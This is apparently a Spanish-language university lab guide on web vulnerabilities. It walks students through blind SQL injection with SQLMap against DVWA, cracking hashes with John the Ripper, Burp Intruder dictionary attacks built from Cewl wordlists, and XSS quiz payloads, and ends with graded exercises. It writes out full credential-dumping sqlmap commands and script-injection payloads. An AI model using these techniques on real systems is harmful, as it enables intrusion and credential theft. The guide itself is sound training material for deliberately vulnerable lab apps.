# Laboratorio: Vulnerabilidades Web

## Objetivos 
  - Comprender y explotar una vulnerabilidad de SQL Injection ciega utilizando la herramienta SQLMap
  - Utilizar Burp Suite para interceptar y analizar peticiones HTTP, extrayendo cookies de sesión necesarias para automatizar ataques.
  - Realizar ataques offline contra contraseñas cifradas utilizando John the Ripper y hash-identifier.
  - Ejecutar ataques online a formularios de autenticación mediante el uso de diccionarios personalizados generados con Cewl.
  - Identificar y explotar vulnerabilidades de tipo Cross Site Scripting (XSS) mediante desafíos prácticos interactivos.
  - Desarrollar habilidades prácticas esenciales para el análisis y explotación de vulnerabilidades web comunes.


## Prerrequisitos
Antes de comenzar, los estudiantes deben tener conocimientos básicos sobre:  

- Conocimientos básicos de funcionamiento de aplicaciones web (HTTP, sesiones, cookies).
- Familiaridad con el uso de terminal en Linux (preferiblemente Kali Linux).
- Haber instalado y configurado las siguientes herramientas:
  - DVWA (Damn Vulnerable Web Application)
  - Mutillidae II
  - Burp Suite (incluido en Kali Linux)
  - SQLMap
  - John the Ripper
  - hash-identifier
  - Cewl

### 4.1. SQL Injection

Se va a realizar una práctica usando _SQLMap_ para automatizar una inyección ciega (muy tediosa de forma manual).

El ataque se desarrollará usando la **aplicación DVWA**, en concreto nos desplazaremos sección **SQL Injection (Blind)**. 
Antes de utilizar _SQLMap_ necesitamos cierta información, ya que se trata de una aplicación web que requiere identificarse como usuario.

- RESPONDE:
  - **¿Qué podemos necesitar para emplear SQLMap en estas circunstancias? ¿Cómo podemos obtener esta información?**

Necesitamos una sesión activa para poder entrar a la aplicación web, es decir, un token de sesión.

Lo mismo necesitará _SQLMap_ para realizar la inyección.
Vamos a utilizar la herramienta _Burp Suite_ (preinstalada en Kali Linux) para obtener el _token_ y otras _cookies_ necesarias (imaginad que no tuviéramos otra forma de obtener esta información).

En primer lugar, ejecutamos _Burp Suite_ en Kali Linux con todas las opciones de configuración inicial por defecto.

En la parte inferior de su interfaz, _Burp Suite_ nos muestra dónde está ejecutando el _proxy_ (Figura 1.1).


*Figura 1.1. Dirección del proxy de Burp Suite*

Posteriormente, configuramos el modo proxy en nuestro navegador (Figura 1.2). A partir de ahora, las peticiones que hagamos a _DVWA_ pasarán
primero por _Burp Suite_.



*Figura 1.2. Configuración del proxy en Firefox.*

Finalmente, empleamos _Burp Suite_ para capturar una petición a la aplicación web que vamos a 'atacar'. En el apartado superior de la interfaz de
_Burp Suite_ encontramos la pestaña 'Proxy'. En esta podemos ver todas las peticiones que hagamos desde nuestro navegador, reenviarlas e incluso descartarlas. 


Entramos a _DVWA_ y vemos como nuestro navegador web se queda a la espera de reenviar o descartar la petición desde _Burp Suite_. Si nos fijamos
en la petición, vemos las cookies que necesitamos para poder usar _SQLMap_, en concreto 'security' y 'PHPSESSID' (Figura 1.3).


*Figura 1.3. Captura de petición con Burp Suite.*

**NOTA: recordad iniciar sesión con usuario y contraseña en DVWA para enlazar el token de sesión con una entidad en la aplicación web (es decir, con
el usuario 'admin').**

Una vez que ya tenemos las cookies necesarias, empezamos con el ataque de inyección a ciegas en _SQLMap_. En cuanto a la información que queremos
obtener, primero serán las bases de datos y las tablas de la base de datos objetivo. Tras esto, obtenemos las columnas de la tabla a atacar, y por último,
los datos de las columnas que queramos de dicha tabla.

El objetivo es obtener usuarios y contraseñas (aunque estén cifradas) de la tabla _users_ de la base de datos _dvwa_.

Con los siguientes comandos obtenemos información de la base de datos con _SQLMap_. Guardad la información obtenida para los siguientes ejercicios.

**NOTA 1: con el comando `sqlmap –help` podéis ver qué significan cada una de las `flags` especificadas.**

**NOTA 2: en el último comando responder `no (n)` a las preguntas que se os hagan.**

1. Obtención de bases de datos.

```
sqlmap -u "http://192.168.0.50/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=hhcma474ak8ea09kkvstrird21;" --dbs
```

2. Obtención de tablas.

```
sqlmap -u "http://192.168.0.50/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=hhcma474ak8ea09kkvstrird21;" -D dvwa --tables
```

3. Obtención de columnas.

```
sqlmap -u "http://192.168.0.50/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=hhcma474ak8ea09kkvstrird21;" -D dvwa -T users --columns
```

4. Obtención de usuarios y contraseñas.

```
sqlmap -u "http://192.168.0.50/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=hhcma474ak8ea09kkvstrird21;" -D dvwa -T users -C user,password --dump
```


*Figura 1.4. Resultado que debemos obtener con SQLMap*


### 4.2. Ataques a credenciales

En el ejercicio anterior hemos obtenido los usuarios y las contraseñas de DVWA. Estas contraseñas suelen (deberían) guardarse cifradas.
En esta sección se van a realizar ataques offline para tratar de romper el cifrado de dichas contraseñas.

Además, también se realizará un ataque de diccionario contra formularios (ataque online).

#### 4.2.1. Ataque offline


En primer debemos obtener las contraseñas tal y cómo se ha mostrado en el ejercicio anterior (Ejercicio 4.1). Para realizar el ataque offline se hará uso de la herramienta  `John the Ripper` junto con `hash-identifier` para identificar el tipo de hash al que nos enfrentamos (las dos preinstaladas en Kali Linux).


Para ello, nos centraremos en el hash de un usuario, en nuestro caso por ejemplo, el usuario se llama `carlos`, en tu caso podrías tener usuarios diferentes.  Esta vez emplearemos el famoso diccionario `rockyou`, un diccionario muy común en desafíos y retos de seguridad donde se premia el identificar el posible ataque por diccionario, y no tanto la creación de un diccionario como tal. El primer paso, como hemos dicho, es identificar el tipo de hash (Figura 2.1)



*Figura 2.1. Identificamos el tipo del hash*


1. Identificamos el hash.
```
$ hash-identifier 0d107d09f5bbe40cade3de5c71e9e9b7
```

1. Ahora que sabemos de qué tipo de hash se trata podemos emplear `John the Ripper`, pero antes necesitamos descomprimir `rockyou`, ya que el diccionario se encuentra comprimido por defecto.

```
# sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

3. Ahora que conocemos el tipo de hash y tenemos un diccionario. Utilizad el comando john - -help para revisar las posibles opciones a
configurar. Es posible que queráis guardar el hash en un fichero. Es importante indicar el tipo de hash que queremos crackear (RawMD5).
¿Cuál es la contraseña del usuario pablo? ¿Podéis repetir el proceso con el usuario admin?

Pista: [https://techarry.com/crack-hashes-with-john-the-ripper-in-kali-linux/](https://techarry.com/crack-hashes-with-john-the-ripper-in-kali-linux/)


#### 4.2.2. Ataque online

En este caso vamos a atacar directamente el formulario de inicio de sesión de `Mutillidae II`, pero no vamos a utilizar los diccionarios por defecto, en su
lugar vamos a generar uno propio. Para esto emplearemos la herramienta `Cewl`, la cual permite generar diccionarios directamente desde páginas web
mediante URL. 

Si sabemos que a nuestra víctima le gusta el fútbol, podríamos utilizar un diario deportivo para tratar de adivinar la
contraseña (¿marca.com?). Genera un diccionario a partir de la web marca.com.

```
$ cewl https://www.marca.com -d 1 -m 5 -
w marca.txt
```

Como veis, en el comando indicamos la URL de la búsqueda de https://www.marca.com. Los siguientes parámetros indican:
- -d: la profundidad de la búsqueda. Es importante que sea 1 para evitar que nos metan timeouts, si fuese superior el programa buscaría palabras
dentro de los enlaces también.
- -m: establece el tamaño mínimo de las palabras para ser incluidas en el diccionario.
- -w: escribe el diccionario generado en la ruta que le indicamos (nombre del diccionario).

Una vez creado el diccionario en base a marca, vamos a crear uno que contendrá la palabra `admin` que sabemos que es la contraseña del usuario de `Multillidae II` para eso vamos a generar un diccionario a partir de la página `https://es.bab.la/diccionario/ingles-espanol/admin` que genera traducciones de palabras, y además aparece supuestos donde se usa la palabra en inglés. Esta web la usamos para que dentro del conjunto de palabras que se generan para el diccionario, se incluye la palabra  `admin`.

```
$ cewl https://es.bab.la/diccionario/ingles-espanol/admin -d 1 -m 5 -w diccionario.txt
```

Con esto ya tenemos nuestro diccionario personalizado. Ahora vamos a tratar de identificarnos en Mutillidae II (Figura 2.2)


*Figura 2.2. Identificamos el tipo del hash*


En este ejercicio solo vamos a atacar la contraseña del usuario `admin` (sabemos que el usuario existe ya que cuando introducimos el usuario y una contraseña incorrecta deliberadamente, el mensaje que obtenemos es 'Password incorrect'). ¡MENSAJE VULNERABLE!

Configuramos el `proxy` en nuestro navegador como en el primer ejercicio y abrimos `Burp Suite`. Ahora intentamos iniciar sesión con el usuario `admin` y una contraseña aleatoria, y capturamos la petición en `Burp Suite`. Posteriormente, como vemos en la Figura 2.3, en acciones elegimos `Send to intruder` (herramienta/plugin de automatización de ataques en `Burp Suite`). Si hemos pulsado `forward` y no tenemos la petición retenida, podemos hacer lo mismo desde la pestaña HTTP history al lado de la pestaña Intercept.

 
*Figura 2.3. Enviamos la petición al Intruder.*


Una vez que hemos enviado la petición al `Intruder`, podemos reenviar o descartar la petición y dejar de interceptar otras ('Intercept is on'). Para realizar el ataque, vamos a la pestaña del `Intruder` (Figura 2.4), subpestaña `Positions` y pulsamos el botón `Clear` en la parte derecha de la interfaz de `Burp Suite` (si no hacemos esto, intentará atacar todos los parámetros de la
petición marcados en verde). Después, seleccionamos con el ratón (arrastrando) la parte con la contraseña aleatoria que introdujimos antes y pulsamos el botón `Add` (también a la derecha, encima de `Clear`). Una vez hecho esto solo debería estar marcada la contraseña como parámetro a atacar (Figura 2.5).


*Figura 2.4. Enviamos la petición al Intruder.*



*Figura 2.5. Elemento password seleccionado.*

Habiendo seleccionado el campo a atacar, vamos a la subpestaña `Payloads`. En `Payload Options` elegimos el diccionario que creamos antes con _Cewl_ (no os preocupéis si algunas palabras tienen caracteres extraños, las 'ñ' y los acentos las provocan). Podemos ver cómo queda la configuración en la Figura 2.6. Una vez que tenemos el diccionario cargado, pulsamos `Start attack` (arriba a la derecha en la interfaz de `Burp Suite`).



*Figura 2.6. Elección de payload.*

Finalmente, se abre una nueva ventana con cada una de las palabras probadas como contraseña (Figura 2.7). Al cabo de un rato, si ordenamos la columna `Status` en orden descendente, vemos un código HTTP 302 Found diferente a las demás pruebas (además que la longitud de la respuesta también es diferente). Hemos encontrado la contraseña: 'admin'.


*Figura 2.7. Resultado del ataque.*


## 4.3. Cross Site Scripting (XSS)

Como vimos en las sesiones teóricas, existen dos páginas de entrenamiento online muy buenas para practicar ataques XSS. En esta práctica, resolveremos algunos ejemplos del juego [https://xss-quiz.int21h.jp](https://xss-quiz.int21h.jp). 

Este tipo de juegos son útiles para aprender a inyectar XSS de diferentes formas. Además, para los alumnos suele ser divertido y gratificante una vez encuentras la solución.

En la Figura 3.1 encontramos la página de entrenamiento: en el recuadro rojo tenemos el comando a ejecutar, en el azul podemos ver una pista si arrastramos el ratón sobre las letras blancas y el verde es nuestro punto de entrada como jugadores. Este primer ejemplo (referente al Stage 1) es muy
sencillo.


*Figura 3.1. Página de entrenamiento.*

Cuando acertemos con la inyección aparecerá algo similar a la Figura 3.2.


*Figura 3.2. Ejecución del comando correcto.*

Tras aceptar el popup, podremos ver el link para el siguiente ejercicio (Figura 3.3). Con esto en cuenta ya podemos tratar de llegar los más lejos posible: el
objetivo es la Stage 6.


*Figura 3.3. Enlace para el siguiente ejercicio.*

En cada una de las secciones siguientes tenéis una explicación de cómo resolver las stages, aunque lo ideal sería probar primero sin las soluciones. Recordad emplear el inspeccionar elemento de vuestro navegador para ver cómo queda el código fuente (si es necesario podéis usar Burp Suite).

### 4.3.1. Stage 2. Cerrando etiquetas existentes

Si introducimos algo en el cuadro de texto, la salida enviada por el formulario será algo similar a lo que se muestra en la Figura 3.4. Por lo tanto, si cerramos esa etiqueta (con `">`), podemos inyectar lo que queramos a partir de ahí. De esta forma, el payload podría ser:

```
"><script>alert(document.domain);</script>.
```


*Figura 3.4. Encerrados en en el input.*

### 4.3.2. Stage 3. Inyectado en desplegables
En este caso, parece que han saneado bien la entrada (como vemos en la Figura 3.5) para buscar un lugar, sin embargo, la elección de países es sospechosa. 


*Figura 3.5. Desplegable sospechoso.*

Usaremos la inspección de elementos (botón derecho sobre el desplegable) para modificar 'Japan' y probarlo como vemos en la Figura 3.6.


*Figura 3.6. Modificando las opciones del desplegable.*


Una vez tenemos esto, cerramos el inspector y probamos a buscar algún lugar (aleatorio). El resultado será similar a la Figura 3.7.


*Figura 3.7. Página modificada.*

### 4.3.3. Stage 4. Campos ocultos
En este caso, no podemos inyectar ni en el cuadro de texto ni en el desplegable, pero si inspeccionamos la página, vemos que hay algo extraño.

Un elemento de tipo oculto como vemos en la Figura 3.8 (tan sospechoso como que el valor del elemento es 'hackme'). Usando el inspector, vamos a introducir el XSS en este campo. Es importante darse cuenta que hay que escapar del elemento input, como en el Stage 2, sin embargo no sirve emplear directamente las comillas dobles porque no funcionaría con el inspector. En su lugar, buscaremos el código ASCII de las comillas dobles y emplearemos `&#<numero_ascii>`. Esta etapa es interesante porque se usan dos técnicas juntas. 

Podemos buscar el código ASCII de las comillas dobles en el siguiente enlace: [https://elcodigoascii.com.ar](https://elcodigoascii.com.ar).


*Figura 3.8. Elemento oculto.*


En la Figura 3.9 podemos ver como se modifica el elemento para introducir el XSS.


*Figura 3.9. Modificando el elemento oculto para que funcione con el inspector.*

### 4.3.5. Longitud Máxima

La seguridad y los filtros no deben implementarse en la parte del cliente porque pueden modificarse por el atacante. Este ejemplo es una clara muestra de ello. Si tratamos de inyectar en el input, nos damos cuenta de que el tamaño máximo está establecido en 15. La solución es muy sencilla, simplemente modificamos este campo y lo aumentamos. Una vez hecho esto, el ejercicio es
similar al del Stage 3 donde escapamos del input. Podemos ver los dos pasos en las Figuras 3.10 y 3.11.


*Figura 3.10. Modificando la longitud máxima permitida.


*Figura 3.11. Escapamos del input e inyectamos el xss.*


### 4.3.6. Inyectando eventos
No siempre es necesaria la etiqueta `<script>` para perpetrar un ataque XSS. En este caso, escapan los caracteres `<` y `>`, pero no los demás. Esto nos permite jugar con los eventos de la etiqueta input. Primero, escaparemos del campo `value` (similar al `Stage 3`). Hay que encontrar un evento que podamos accionar, y dentro de ese evento inyectaremos el XSS. Podemos ver un listado
de eventos aquí: [https://lenguajehtml.com/html/scripting/eventos-html](https://lenguajehtml.com/html/scripting/eventos-html). 

En este caso, usaremos el evento `onFocus` que se activa cuando el elemento recibe el foco del usuario como puede verse en la Figura 3.12. Una vez que le damos a buscar, tendremos que hacer click otra vez en el input para que reciba el foco y así activar la inyección.


*Figura 3.12.  Inyectamos con evento en el elemento input.*


# PRÁCTICAS

## PRÁCTICA 4.1. SQL Injection (3 puntos)
### PRÁCTICA 4.1.1 SQLMap Práctico (1 puntos)

a) Instalación y Configuración de DVWA

- Instalar DVWA: Puedes instalar DVWA en una máquina virtual o en un entorno de contenedores (por ejemplo, Docker).
- Sigue la documentación oficial para clonarla, configurar la base de datos MySQL y habilitar la aplicación.
- Accede a DVWA mediante el navegador usando la URL configurada (por ejemplo, `http://192.168.0.50/dvwa/`).
- Sigue el asistente de instalación para establecer las credenciales de base de datos y los parámetros iniciales.
- Una vez configurado, accede como usuario administrador (por ejemplo, usuario: admin, contraseña: password).

b) Configuración del Proxy con `Burp Suite`

- Ejecución de Burp Suite: En Kali Linux, abre `Burp Suite` con los parámetros por defecto.
- Localiza en la interfaz la sección donde se indica en qué puerto se encuentra el proxy (usualmente el puerto 8080, pero puede ser otro).
- Configura el navegador para que utilice como proxy la dirección `127.0.0.1` y el puerto indicado (por ejemplo, 8080).

c) Captura de Tráfico:

- Activa la interceptación en la pestaña "Proxy" de `Burp Suite`.
- Accede a DVWA e inicia sesión.
- Captura una petición que se realice hacia DVWA (por ejemplo, la petición HTTP que se envía tras pulsar el botón de inicio de sesión).
- Verifica en la cabecera HTTP de la petición la presencia de las cookies importantes: `PHPSESSID` y security.

d) Extracción de Cookies y Token de Sesión
- Cookies Importantes: Una vez capturada la petición, identifica en la cabecera la cookie PHPSESSID y el parámetro security.
- Interpretación de Datos: Estos datos son fundamentales para que SQLMap pueda ejecutar la inyección desde una sesión autenticada, replicando el comportamiento del navegador.

e) Ejecución del Ataque con SQLMap

Con la información obtenida (cookies y parámetros de sesión), procederemos a ejecutar SQLMap en diversas fases. A continuación se describen los pasos y comandos utilizados:

  1. Enumeración de Bases de Datos: Debes Listar las bases de datos, entre las cuales se debería encontrar la base de datos dvwa.
  2. Enumeración de Tablas de la Base de Datos: Con la base de datos identificada, ahora debemos listar las tablas de la misma. Verás una lista de tablas, identificándose la tabla `users` entre otras.
  3. Enumeración de Columnas de una Tabla Específica: Una vez localizada la tabla `users`, extraemos las columnas disponibles, entre las cuales se deberían identificar campos como `user` y `password`.
  4. Volcado de Datos de la Tabla Objetivo: Finalmente, extrae los datos específicos (usuarios y contraseñas) de la tabla `users`: obteniendo la información de los usuarios y contraseñas (estas últimas estarán cifradas).

f) Refinamiento de SQLMap 
  1. Modificación de Flags en SQLMap: Ejecución de comandos con los flags --level y --risk diferentes para observar cómo varía la cantidad y profundidad de la información extraída. Explica para qué sirven estos flags.
  2. Simulación de Errores: Intenta modificar valores de cookies o parámetros URL para simular errores. Documenta qué tipo de mensajes de error son retornados y cómo se podrían interpretar para mejorar la seguridad.


### PRÁCTICA 4.1.2 SQLMap Teórico (1 punto)

A continuación se proponen diversas preguntas que combinan aspectos teóricos y prácticos, con un énfasis especial en la parte práctica del ejercicio:

1. ¿Qué es una inyección SQL ciega y en qué se diferencia de una inyección SQL clásica?
2. Explica el propósito de utilizar `Burp Suite` en este ejercicio. ¿Qué información crítica se obtiene mediante este proxy?
3. ¿Por qué es indispensable disponer de una sesión activa al atacar una aplicación como DVWA?
4. Describe el rol del token de sesión y de la cookie PHPSESSID en el contexto del ataque. ¿Cómo afectan estas a la autenticación y a la ejecución de la inyección?
